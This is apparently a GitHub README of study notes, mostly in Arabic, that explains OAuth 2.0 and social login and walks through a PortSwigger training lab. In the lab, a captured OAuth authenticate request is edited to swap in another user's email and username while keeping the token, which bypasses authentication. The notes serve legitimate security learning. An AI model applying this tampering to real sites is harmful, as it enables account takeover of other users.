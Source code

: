 # OAauth      

* <details>
     <summary>What is OAuth and how it work?</summary>

  # 🚀 شرح OAuth 2.0 ببساطة
  
  ## ما هو OAuth؟
  - **OAuth** عبارة عن **إطار عمل (Framework) للتفويض Authorization**.  
  - فكرته الأساسية:  
    التطبيق (مثلاً موقع ألعاب) ممكن يطلب صلاحيات محدودة من حسابك في خدمة تانية (زي Google أو Facebook) **من غير ما يعرف الباسورد بتاعك**.  
  - ده بيدي للمستخدم تحكم: يقدر يوافق يشارك بيانات معينة (زي قائمة أصدقائه) من غير ما يدي صلاحيات كاملة أو يسلّم حسابه بالكامل.  
  
  📌 **مثال**: تطبيق عايز يعمل "Find Friends" → يطلب منك صلاحية الدخول على الـ contacts في Gmail.  
  
  ---
  
  ## الفايدة الأكبر
  - بدل ما المستخدم يدخل الباسورد بتاعه في مواقع كتير → يدخل مرة واحدة في Google/Facebook.  
  - الموقع التاني ياخد **Access Token** يقدر يستخدمه عشان يجيب البيانات المسموح بيها فقط.  
  
  ---
  
  ## 👥 أطراف اللعبة في OAuth 2.0
  1. **Client Application**: الموقع اللي عايز يستخدم بياناتك (مثلاً موقع يشغّل خدمة).  
  2. **Resource Owner**: المستخدم نفسه (إنت).  
  3. **OAuth Service Provider**: الجهة اللي عندها بياناتك (مثلاً Google, Facebook).  
     - فيها **Authorization Server** (اللي بيأكّد الهوية ويطلع Access Token).  
     - وفيها **Resource Server** (اللي فيه الـ API والبيانات).  
  
  ---
  
  ## 🔄 خطوات العملية (Simplified Flow)
  1. **Client App** يطلب منك تصريح: "ممكن أخد صلاحية X من حسابك؟".  
  2. أنت بتروح على صفحة Google/Facebook، تعمل Login وتوافق على الطلب.  
  3. لو وافقت: السيرفر (Google) يدي التطبيق **Authorization Code** (أو Access Token على طول حسب نوع الـ Flow).  
  4. التطبيق يستخدم الكود عشان ياخد **Access Token** من الـ Authorization Server.  
  5. التطبيق يستخدم الـ Token ده عشان يكلم الـ Resource Server ويجيب البيانات اللي إنت وافقت عليها.  
  
  ---
  
  ## 📚 أنواع الـ Flows (Grant Types)
  - **Authorization Code Flow** (الأكثر شيوعًا – آمن):  
    - التطبيق ياخد **Code** مؤقت → يبدّله بـ **Access Token** من السيرفر.  
    - ميزة: التوكين مش بيعدي عبر الـ URL مباشرة (أأمن).  
  
  - **Implicit Flow** (قديم – أقل أمان):  
    - التطبيق بياخد **Access Token** مباشرة في الـ URL.  
    - مشاكل: ممكن يتسرب في الـ logs أو الـ referrer.  
  
  ---
  
  ## 📝 الخلاصة
  - OAuth مش نظام Authentication (هو أساسًا **Authorization**).  
  - لكنه بيستخدم بشكل واسع في **Social Login** (تسجيل الدخول بجوجل/فيسبوك).  
  - بيوفر **أمان + سهولة**: المستخدم ما يشاركش كلمة السر، والتطبيق ياخد صلاحيات محدودة.  
  - أهم شيء: نفهم الـ Flows (Authorization Code / Implicit) قبل ما ندخل في ثغراته.  
  
  
  
  
  ---
  ---
  
  # 🔑 OAuth كـ Authentication (تسجيل دخول)
  
  ## ما الفرق عن OAuth الأصلي؟
  - **الفكرة الأصلية لـ OAuth**: كان معمول علشان *التفويض* (Authorization) → يعني السماح لتطبيق معيّن ياخد صلاحيات محدودة من حسابك.  
  - **لكن مع الوقت**: بدأوا يستخدموه كمان في *المصادقة* (Authentication) → تسجيل الدخول بحساب خارجي زي Google أو Facebook.  
  
  📌 يعني بدل ما تسجّل في الموقع وتعمل Username/Password جديدة، تختار "Login with Google".  
  
  ---
  
  ## ⚙️ إزاي بيشتغل كـ Authentication؟
  الـ Flow الأساسي شبه الـ OAuth العادي، لكن الفرق في **إزاي الـ Client App بيستعمل البيانات**:  
  
  1. **المستخدم** يختار "تسجيل الدخول باستخدام حساب فيسبوك/جوجل".  
  2. **Client App** يطلب من خدمة OAuth (مثلاً Google) بيانات تعريفية عن المستخدم (زي الـ email).  
  3. بعد ما السيرفر يدي **Access Token** → الـ Client App يستخدمه ويطلب بيانات المستخدم من الـ **Resource Server** (عادة من endpoint زي `/userinfo`).  
  4. السيرفر يبعت البيانات (مثلاً: email = user@gmail.com).  
  5. الـ Client App يستخدم البيانات دي بدال الـ Username/Password علشان يعرّفك في السيستم.  
     - أحيانًا الـ Access Token نفسه بيتعامل كأنه "بديل للباسورد" طول ما هو صالح.  
  
  ---
  
  ## 👀 من منظور المستخدم
  - الشكل النهائي بيشبه **SSO (Single Sign-On)** اللي معمول بـ SAML.  
  - المستخدم بيضغط زر واحد → يفتح صفحة خارجية (Google) → يوافق → يرجع للموقع وهو متسجّل دخول.  
  
  ---
  
  ## 🧪 التدريب العملي (Lab Example)
  - لما تعمل Login بالـ Social Media في الـ Lab على PortSwigger، هتشوف:  
    - **Redirects** رايحة وجاية بين الموقع وبين السيرفر (Google/Facebook).  
    - **Access Token** بيطلع من السيرفر.  
    - الموقع بيطلب `/userinfo` عشان يجيب بياناتك.  
  
  > في المعمل، تقدر تجرب تعمل Login بحساب الاختبار: **wiener:peter** وتشوف كل الـ Flow ده في Burp Proxy.  
  
  ---
  
  ## 📝 الخلاصة
  - OAuth اتطور وبقى وسيلة تسجيل دخول (Authentication) مش بس تفويض.  
  - الـ Client App مش بياخد الباسورد بتاعك → بياخد Access Token → وبيروح يجيب بيانات من السيرفر (زي الـ email) → ويدخلك بيها.  
  - النتيجة: Login سهل وسريع + أمان أعلى (ما فيش مشاركة للباسورد).  
  - لكن 👀 هنا ييجي دور الثغرات اللي ممكن تحصل أثناء العملية (هنشوفها في الـ Labs).  
  
  
  

  </details>






# OAuth authentication Labs 




<details>
  <summary>Lab: Authentication bypass via OAuth implicit flow</summary>

1. login with **`wiener : peter`**
2. go to ``http history`` in burp

```
POST /authenticate HTTP/2
Host: 0a4d00a404a21971801a6239001b004c.web-security-academy.net
Cookie: session=ysuWtiBhdYmkXnGRsG3NrvyppQVIhu0w
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a4d00a404a21971801a6239001b004c.web-security-academy.net/oauth-callback
Content-Type: application/json
Content-Length: 103
Origin: https://0a4d00a404a21971801a6239001b004c.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=4
Te: trailers


{
  "email":"wiener@hotdog.com",
  "username":"wiener",
  "token":"z_FeEMGkJ9NtWwvU9zrSwhScgQdn47ZzEf8GpgcEB3r"
}
```
   
`change jsaon content to:`

```
{
  "email":"carlos@carlos-montoya.net",
  "username":"carlos",
  "token":"z_FeEMGkJ9NtWwvU9zrSwhScgQdn47ZzEf8GpgcEB3r"
}
```

> after that click **`show response in browser`**

<img width="752" height="51" alt="image" src="https://github.com/user-attachments/assets/7f8e2109-d3c0-46bb-9ca6-d77a8a8b9578" />

<img width="1390" height="536" alt="image" src="https://github.com/user-attachments/assets/9a8e8ece-b078-4b45-8b0e-a0b1413996c2" />


 
</details>














































 
